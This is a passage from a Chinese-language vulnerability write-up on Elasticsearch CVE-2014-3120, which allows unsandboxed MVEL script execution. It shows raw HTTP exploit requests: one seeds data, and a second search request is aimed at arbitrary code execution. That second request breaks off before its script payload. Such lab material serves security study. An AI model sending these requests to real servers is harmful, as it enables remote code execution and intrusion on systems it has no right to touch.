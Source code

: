 ```
```

## 应用服务器漏洞

### Elasticsearch

#### CVE-2014-3120

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

![image](img/cve-2014-3120-1.png)

执行任意代码

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
```